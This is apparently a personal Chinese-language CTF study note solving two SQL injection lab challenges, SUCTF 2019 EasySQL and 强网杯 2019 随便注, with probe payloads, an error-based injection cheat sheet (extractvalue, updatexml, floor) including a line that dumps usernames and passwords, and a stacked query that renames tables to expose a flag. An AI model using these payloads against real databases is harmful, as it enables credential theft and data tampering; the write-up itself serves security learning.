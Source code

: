



# 12/5笔记

## [SUCTF 2019]EasySQL

fuzz没有跑出来什么结果

不管输入什么都是返回一个1 而不是报错 这个时候很有可能使用了或语法

![image-20241205233646927](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241205233649217-1774356258.png)

首先测试数字型还是字符型

```
payload=1        //正常按照id查找回显
payload=1'       //没有回显,可能存在注入
payload=1'#     //也没有回显
payload=2-1    //输出和1一样的结果，确定数字型注入
```

推测语法逻辑

```
select $a **||** flag from Flag
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/e54f4be2b9104df9983a0b879362c50d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Nzk5Njgz,size_16,color_FFFFFF,t_70)

mysql中默认||符号，作用是把两边的值给转换为了bool了应该是

payload

```
*，1
```

## [强网杯 2019]随便注

测试闭合

![image-20241205234701113](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241205234746026-777376766.png)

测试关键字![image-20241205234854560](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241205234854230-1728212566.png)

![image-20241205235116805](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241205235116522-600692749.png)

报错注入常用函数

```
ST_LatFromGeoHash() (mysql>=5.7.x)

ST_LongFromGeoHash() (mysql>=5.7.x)

GTID   (MySQL >= 5.6.X - 显错<=200)

// GTID_SUBSET()

// GTID_SUBTRACT()

floor
// 表的数据必须大于3条
利用语句是 select count(),(floor(rand(0)*2))x from table group by x，导致数据库报错，通过 concat 函数，连接注入语句与 floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。
具体复杂暂时不需要知道原理
updatexml
返回替换的xml片段
extractvalue
使用xpath表示法从xml字符串中提取值
//?id=1' and extractvalue(1,concat(0x7e,(select user()),0x7e))--+
在第二个参数中进行查询
group_concat使用substr进行字符串的截取 其中1，32控制起始与结束的位置
//and  updatexml(1,(select substr((group_concat(username,0x7e,password)),1,32) from users),1) --+
```

报错注入，绕过的函数如updatexml，extractvalue等函数的第二个参数是xpath格式的，当格式非法的时候，错误信息会包括参数的内容，然后就形成了注入。

![image-20241206000907936](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241206000907679-1447496386.png)

![image-20241206001427942](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241206001427869-1393856811.png)

http://2f25a7fb-32d0-49d3-89f8-5f84c4e6c584.node5.buuoj.cn:81/?inject=1';show tables--+

第一种：比较骚的思路，让程序中已经存在的select语法帮我们进行查询，把words改名为其他，191这个表改名为words,然后再添加id字段，将flag字段改为data。

先将 words 改为别的名字 比如 words2 或者其他
然后将 1919810931114514 改为 words
把属性名flag改为id，然后用1’ or 1=1;# 显示flag出来
在这之前当然要先把words表改名为其他
n.net/m0_62879498/article/details/123292860

1';rename table words to word2;rename table `1919810931114514` to words;ALTER TABLE words ADD id int(10) DEFAULT '12';ALTER TABLE  words CHANGE flag data VARCHAR(100);-- q

1';show tables-- q

1'; show columns from words-- q

1'or1=1-- q
